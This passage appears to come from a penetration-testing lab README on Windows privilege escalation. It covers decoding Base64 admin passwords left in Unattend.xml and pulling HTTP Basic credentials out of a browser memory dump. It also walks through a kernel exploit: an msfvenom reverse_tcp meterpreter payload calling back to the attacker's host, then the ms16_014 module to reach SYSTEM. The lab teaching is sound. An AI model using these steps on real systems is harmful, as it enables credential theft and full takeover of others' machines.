  The `Unattend.xml` file allows administrators to configure and automate a wide-scale Windows deployment. If this file is not properly cleaned up after installation, it can leave a local administrator's password on the system. While the password is often encoded in Base64, this is not a form of encryption and can be easily reversed to reveal the plaintext password.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves finding the `Unattend.xml` file, extracting the encoded password, and decoding it.
  
  ### 1\. Finding the Password (Windows VM)
  
  1.  Locate and Read the Unattend.xml File
  
      These files are often found in C:\Windows\Panther\. Open a command prompt on the Windows VM and use the type command to display its contents.
  
      
  
      ```ruby
      type C:\Windows\Panther\Unattend.xml
  
      ```
  
  2.  Extract the Encoded String
  
      Look through the XML output for the <Password> section. Inside, you will find a <Value> tag containing a Base64 string.
  
      
  
      ```xml
      <UserAccounts>
          <AdministratorPassword>
              <Value>QWRtaW5QYXNzd29yZDEyMyE=</Value>
              <PlainText>false</PlainText>
          </AdministratorPassword>
      </UserAccounts>
  
      ```
  
      Copy the Base64 string from between the `<Value>` tags (in the example above: `QWRtaW5QYXNzd29yZDEyMyE=`).
  
  ### 2\. Decoding the Password (Kali VM)
  
  1.  Decode the Base64 String
  
      On your Kali machine, use the echo and base64 -d commands to decode the string you copied.
  
      
  
      ```Bash
      echo <COPIED_BASE64_STRING> | base64 -d
  
      ```
  
  2.  Reveal the Plaintext Password
  
      The output will be the plaintext administrator password.
  
      
  
      ```Bash
      # Example using the string from above
      echo QWRtaW5QYXNzd29yZDEyMyE= | base64 -d
      AdminPassword123!
  
      ```
  
  ✅ Gaining Access
  ----------------
  
  Now that you have the administrator's password, you can use it to escalate your privileges.
  
  1.  Switch to the Administrator Account
  
      On the Windows VM, you can now use these credentials with commands like runas to execute commands as the administrator or simply log out and log back in as the administrator.
  
      DOS
  
      ```
      runas /user:Administrator cmd.exe
  
      ```
  
      Enter the decoded password when prompted, and you will be granted a new command prompt with administrative privileges.
  
      <img width="640" height="154" alt="image" src="https://github.com/user-attachments/assets/1d27a0df-de9a-4831-9e45-dd6e09805369" />

  
      ```xml
       <AutoLogon>
                <Password>
                    <Value>cGFzc3dvcmQxMjM=</Value>
                    <PlainText>false</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <Username>Admin</Username>
            </AutoLogon>
      ```




  </details>



- <details>
      <summary>Memory</summary>





  
  
  Windows Privilege Escalation: Password Mining from Process Memory
  =================================================================
  
  This guide demonstrates a technique for extracting credentials from the memory of a running process. When applications handle authentication, credentials may temporarily reside in the process's memory in plaintext or a weakly encoded format (like Base64). By creating a memory dump of a process after it has authenticated, an attacker with local access can search the dump file to recover those credentials.
  
  ⚙️ The Setup
  ------------
  
  This attack requires two parts: setting up a fake server to prompt for credentials and then having the user on the target machine authenticate to it.
  
  ### 1\. Setting Up a Fake Authentication Server (Kali VM)
  
  We will use a Metasploit auxiliary module to quickly create a web server that requests HTTP Basic Authentication.
  
  1.  **Start Metasploit**
  
      Bash
  
      ```
      msfconsole
  
      ```
  
  2.  Configure the HTTP Basic Auth Capture Server
  
      This module will listen for connections and record any credentials it receives.
  
      Ruby
  
      ```
      msf6 > use auxiliary/server/capture/http_basic
      msf6 auxiliary(server/capture/http_basic) > set uripath /x
      msf6 auxiliary(server/capture/http_basic) > run
  
      ```
  
      Metasploit is now listening for incoming connections.
  
  ### 2\. Triggering Authentication (Windows VM)
  
  1.  On the Windows VM, open Internet Explorer and browse to the server you just set up.
  
      ```
      http://<Your Kali VM IP Address>/x
  
      ```
  
  <img width="1821" height="675" alt="image" src="https://github.com/user-attachments/assets/4718474d-6acd-4df6-8664-67aeecbdb206" />
  
  
  2.  Internet Explorer will display an authentication prompt. Enter any username and password (e.g., `user` / `password123`) and click OK. These credentials will now be stored temporarily in the `iexplore.exe` process memory.
  
  💥 Exploitation: Memory Analysis
  --------------------------------
  
  Now that the credentials are in memory, we will create a dump of the browser process and analyze it on our Kali machine.
  
  ### 1\. Creating the Memory Dump (Windows VM)
  
  1.  Open Task Manager
  
      On the Windows VM, right-click the taskbar and select Task Manager, or press Ctrl+Shift+Esc.
  
  2.  **Create the Dump File**
  
      -   Go to the **Details** tab.
  
      -   Find and right-click on the **`iexplore.exe`** process.
  
      -   Select **Create dump file** from the context menu.
  
      -   Note the location where the `iexplore.DMP` file is saved.
  
  
  
  
  
  3.  Transfer the Dump File
  
      Copy the generated iexplore.DMP file from the Windows VM to your Kali machine (e.g., to the Desktop).
  
  
  
  
  
  
  ### 2\. Finding and Decoding the Credentials (Kali VM)
  
  1.  Search the Dump for Authentication Headers
  
      On your Kali machine, open a terminal. Use the strings command to find human-readable text in the dump file and grep to filter for the HTTP Basic Authentication header.
  
      Bash
  
      ```
      strings ~/Desktop/iexplore.DMP | grep "Authorization: Basic"
  
      ```
  
      The output will be the full header, including a Base64 encoded string. For example:
  
      ```
      Authorization: Basic dXNlcjpwYXNzd29yZDEyMw==
  
      ```
  
  2.  Decode the Base64 String
  
      Copy only the Base64 string from the previous output. Use echo and base64 -d to decode it.
  
      Bash
  
      ```
      echo -ne 'dXNlcjpwYXNzd29yZDEyMw==' | base64 -d
  
      ```
  
  3.  Reveal the Credentials
  
      The output will be the plaintext credentials that were entered into the browser.
  
      ```
      user:password123
  
      ```
  
      This confirms the successful extraction of credentials from the process memory dump.
  
  
  
  
  
  
  





  </details>





  
</details>



<details>
  <summary>Privilege Escalation - Kernel Exploits</summary>






Windows Privilege Escalation: Kernel Exploits
=============================================

This guide demonstrates how to perform privilege escalation by exploiting a vulnerability in the Windows Kernel. Kernel exploits target flaws in the core of the operating system to execute code with the highest level of privileges (`NT AUTHORITY\SYSTEM`).

The process involves three main phases:

1.  **Gaining Initial Access:** Establishing a low-privileged Meterpreter shell on the target.

2.  **Detection:** Using a post-exploitation module to identify potential kernel vulnerabilities.

3.  **Exploitation:** Using a specific exploit module to leverage a vulnerability and gain a `SYSTEM`-level session.

1\. Gaining Initial Access
--------------------------

First, we need to create a payload and set up a listener to get a basic shell on the Windows VM.

### Kali VM: Setup

1.  **Start Metasploit and Configure the Listener**

    Bash

    ```
    msfconsole

    ```

    Ruby

    ```
    msf6 > use multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
    msf6 exploit(multi/handler) > run

    ```

2.  Generate the Payload

    Open a new terminal window on your Kali VM. Use msfvenom to create the executable.

    Bash

    ```
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f exe -o shell.exe

    ```

3.  **Transfer and Execute**

    -   Copy the generated `shell.exe` to the Windows VM.

    -   On the Windows VM, execute `shell.exe`. This will connect back to your Metasploit listener and open a Meterpreter session.

2\. 🕵️‍♂️ Detection & Exploitation
-----------------------------------

With a low-privilege session active, we will use Metasploit's suggester to find a viable kernel exploit.

1.  Find Potential Exploits

    Background your current Meterpreter session by pressing Ctrl+Z and then run the local_exploit_suggester module.

    Ruby

    ```
    meterpreter > background
    msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
    msf6 post(multi/recon/local_exploit_suggester) > set SESSION <Your Session ID>
    msf6 post(multi/recon/local_exploit_suggester) > run

    ```

    > The suggester will analyze the target system and list potential exploits. For this example, it identifies `exploit/windows/local/ms16_014_wmi_recv_notif` as a likely candidate.

2.  Configure the Kernel Exploit

    Now, load the exploit module identified by the suggester.

    Ruby

    ```
    msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_014_wmi_recv_notif
    msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set SESSION <Your Session ID>
    msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set LPORT 5555

    ```

3.  Run the Exploit

    Execute the module to exploit the kernel vulnerability.

    Ruby

    ```
    msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > run

    ```

    > **Note:** If the exploit fails to connect back, it might be using the wrong network interface. Ensure your `LHOST` is set correctly for this exploit: `set lhost <Your Kali VM IP Address>` and then `run` again.

✅ Verification
--------------

If the exploit is successful, Metasploit will create a new, high-privilege session.

1.  Catch the SYSTEM Shell

    You will see a message indicating a new session has opened.

    ```
    [*] Meterpreter session 2 opened (...)

    ```

2.  Verify Privileges

    Enter the new session and use the getuid command to confirm your identity.

    Ruby

    ```
    msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > sessions -i 2
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

    ```

    The output confirms you have successfully exploited the kernel and escalated to the highest privilege level.






  
</details>











